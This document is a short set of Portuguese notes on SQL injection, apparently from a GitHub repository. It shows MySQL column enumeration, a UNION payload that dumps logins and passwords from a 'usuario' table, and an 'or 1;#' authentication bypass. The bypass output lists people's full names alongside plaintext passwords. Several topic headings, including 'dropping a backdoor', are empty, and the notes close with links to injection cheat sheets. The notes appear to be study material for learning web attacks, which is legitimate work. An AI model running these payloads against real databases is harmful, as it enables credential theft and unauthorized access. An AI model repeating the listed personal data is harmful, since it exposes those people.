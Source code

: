 ## Notas sobre SQL Injection


- Extraindo dados de usuários de um banco de dados cujo a tabela de users se chama "usuario" :

		select * from usuario where id = 1 order by 18;
			ERROR 1054 (42S22): Unknown column '18' in 'order clause'

---
		select * from usuario where id = 1 order by 19;
			Empty set (0.01 sec)

---

		select * from usuario where id = 6 union all select 1,(select group_concat(login,0x3a,senha) from usuario),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19;



- Bypass na autenticação :


		mysql> select nome_usuario,login,senha from usuario where login='ADM' and senha='TESTE01';
.................
+---------------+-------+-----------+
| nome_usuario  | login | senha     |
+---------------+-------+-----------+
| ADMINISTRADOR | ADM   | TESTE01 |
+---------------+-------+-----------+
1 row in set (0.00 sec)

		mysql> select nome_usuario,login,senha from usuario where login='ADM' and senha='blah';#'TESTE01';
		Empty set (0.00 sec)
.................

		mysql> select nome_usuario,login,senha from usuario where login='ADM' and senha='blah'or 1;#'TESTE01';

.................
+-------------------------------------------+---------------+-----------+
| nome_usuario                              | login         | senha     |
+-------------------------------------------+---------------+-----------+
| ADMINISTRADOR                             | ADM           | TESTE01 |
| MAYCON DOUGLAS DA SILVA                   | MAYCON        | 123       |
| MESSIAS JOSE DA SILVA                     | MESSIAS       | 123       |
| PETER MATEUS DA SILVA                     | PETER         | 240219    |
| POLIANA LEILA DA SILVA                    | POLIANA       | 123       |
| JUSSARA PRISCILA RIBEIRO DA SILVA MARINHO | PRISCILA      | 123       |
___________________________________________________________________________
.................


- Second order Injection :
- Droppping a Backdoor :
- Conditional Select :
- Bypassing Whitespace Filtering
- SQL Injection baseada no tempo:

---

Step by Step : READ - http://breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html

Tips 1 : READ - http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

Tips 2 : READ - http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet